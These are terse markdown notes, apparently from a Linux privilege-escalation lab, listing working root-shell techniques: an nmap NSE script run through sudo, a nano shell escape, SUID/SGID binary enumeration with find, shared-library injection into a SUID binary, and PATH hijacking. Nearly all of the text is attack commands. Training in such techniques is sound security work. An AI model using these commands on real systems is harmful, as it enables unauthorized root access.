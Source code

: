 ### nmap privesc: echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse

### nano privesc: sudo nano; /bin/sh; ^T

### SUID privesc enum: find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


## Task 12 steps:

### 1- run /usr/local/bin/suid-so

### 2- strace suid-so: strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

### 3- create config directory: mkdir /home/user/.config

### 4- make a shared library from the libcalc.c file: gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c

### 5- EXPLOIT: /usr/local/bin/suid-so

## BOOM A ROOT SHELL!


## Task 13 steps:

### 1- run /usr/local/bin/suid-env

### 2- strings /usr/local/bin/suid-env

### 3- make a service: gcc -o service /home/user/tools/suid/service.c

### 4- EXPLOIT: PATH=.:$PATH /usr/local/bin/suid-env

## BOOM A ROOT SHELL!
